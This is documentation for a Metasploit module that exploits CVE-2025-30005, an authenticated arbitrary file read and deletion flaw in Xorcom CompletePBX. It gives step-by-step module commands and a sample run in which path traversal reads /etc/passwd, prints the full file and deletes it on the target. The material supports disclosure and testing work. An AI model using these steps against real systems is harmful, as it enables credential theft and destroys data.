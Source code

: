 ## Vulnerable Application

This Metasploit module exploits an **Authenticated Arbitrary File Read and Deletion** vulnerability in **Xorcom CompletePBX <= 5.2.35**.
The issue arises due to improper validation of the `systemDataFileName` parameter in the `diagnostics` module,
allowing an attacker to retrieve arbitrary files from the system.

Additionally, this vulnerability **automatically deletes the requested file** after being accessed,
leading to potential data loss on the target.

The vulnerability is identified as **CVE-2025-30005**.

### Setup

Download the ova file here: [](https://archive.org/details/completepbx-5-2-27-vuln)


## Verification Steps

1. Deploy a vulnerable instance of **Xorcom CompletePBX <= 5.2.35**.
2. Launch **Metasploit Framework**.
3. Use the module:
```
use auxiliary/admin/http/xorcom_completepbx_diagnostics_file_read
```
4. Set the **target host**:
```
set RHOSTS [TARGET_IP]
```
5. Set authentication credentials:
```
set USERNAME [VALID_ADMIN_USERNAME]
set PASSWORD [VALID_ADMIN_PASSWORD]
```
6. Specify the file to read (before deletion):
```
set TARGETFILE /etc/passwd
```
7. Execute the module:
```
run
```
8. If successful, the contents of the specified file will be displayed before its deletion.

## Options

- `USERNAME`: Admin username for authentication.
- `PASSWORD`: Admin password for authentication.
- `TARGETFILE`: Path of the file to retrieve (**before automatic deletion**).

## Scenarios

### Successful Exploitation Against a Vulnerable CompletePBX Instance

**Setup**:

- **Target**: Xorcom CompletePBX <= 5.2.35
- **Attacker**: Metasploit Framework instance

**Steps**:

```bash
msf6 auxiliary(xorcom_completepbx_diagnostics_file_read) > run https://rnd-repo.cpbxmt-demo187.xorcom.com
[*] Running module against 142.93.233.32

[*] Attempting authentication with username: admin
[+] Authentication successful! Session ID: sid=c8f08002130196439747e488447260f48d595c51
[*] Attempting to read file: ../../../../../../../../../../../etc/passwd
[*] ZIP file received, attempting to list files
[*] Files inside ZIP archive:
 - ../../../../../../../../../../../etc/passwd
 - full_20250318_160522
 - audit_20250318_160522.log
[+] Content of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:105:108:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:106:110::/var/spool/postfix:/usr/sbin/nologin
tcpdump:x:107:112::/nonexistent:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
Debian-snmp:x:110:113::/var/lib/snmp:/bin/false
asterisk:x:111:114:Asterisk PBX daemon,,,:/var/lib/asterisk:/usr/sbin/nologin
cc-cloud-rec:x:998:998::/var/lib/cc-cloud-rec:/sbin/nologin

[!] WARNING: This exploit causes the deletion of the requested file on the target if the privileges allows it.
[*] Auxiliary module execution completed
```

### Impact

- This vulnerability grants **file read access**, but also **automatically deletes** the retrieved file.
- Attackers can extract sensitive data (e.g., user credentials) while simultaneously causing **data loss** on the system.

This module is designed to **demonstrate and automate** the exploitation of this issue using the Metasploit framework.
